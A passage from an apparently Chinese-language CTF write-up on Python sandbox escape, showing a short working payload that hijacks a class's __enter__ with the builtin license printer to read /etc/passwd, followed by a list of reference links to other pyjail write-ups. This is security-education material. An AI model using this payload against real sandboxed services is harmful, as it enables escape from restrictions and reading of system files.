 payload 中将 help 类的 `__enter__` 方法覆盖为 `license` 方法, 而 with 语句在创建上下文时会调用 help 的`__enter__`, 从而执行 `license` 方法. 这里的 help 类只是一个载体, 替换为其他的支持上下文的类或者自定义一个类也是可以的. 例如:

```
class MyContext:
    pass
    
__builtins__.__dict__["license"]._Printer__filenames=["/etc/passwd"]
a = MyContext()
a.__class__.__enter__ = __builtins__.__dict__["license"]
a.__class__.__exit__ = lambda self, *args: None
with (a as b):
    pass
```

参考资料[](#参考资料)
-------------

*   [Python 沙箱逃逸小结](https://www.mi1k7ea.com/2019/05/31/Python%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E5%B0%8F%E7%BB%93/#%E8%BF%87%E6%BB%A4-globals)
*   [Python 沙箱逃逸的经验总结](https://www.tr0y.wang/2019/05/06/Python%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E7%BB%8F%E9%AA%8C%E6%80%BB%E7%BB%93/#%E5%89%8D%E8%A8%80)
*   [Python 沙箱逃逸的通解探索之路](https://www.tr0y.wang/2022/09/28/common-exp-of-python-jail/)
*   [python 沙箱逃逸学习记录](https://xz.aliyun.com/t/12303#toc-11)
*   [Bypass Python sandboxes](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes)
*   [[PyJail] python 沙箱逃逸探究 · 上（HNCTF 题解 - WEEK1）](https://zhuanlan.zhihu.com/p/578986988)
*   [[PyJail] python 沙箱逃逸探究 · 中（HNCTF 题解 - WEEK2）](https://zhuanlan.zhihu.com/p/579057932)
*   [[PyJail] python 沙箱逃逸探究 · 下（HNCTF 题解 - WEEK3）](https://zhuanlan.zhihu.com/p/579183067)
*   [audited2](https://ctftime.org/writeup/31883)
*   [【ctf】HNCTF Jail All In One](https://www.woodwhale.top/archives/hnctfj-ail-all-in-one)
*   [HAXLAB — Endgame Pwn](https://ctftime.org/writeup/28286)
*   [Python 沙箱逃逸的 n 种姿势](https://ctftime.org/writeup/28286)
*   [hxp2020-audited](https://pullp.github.io/writeup/2020/12/26/hxp2020-audited.html)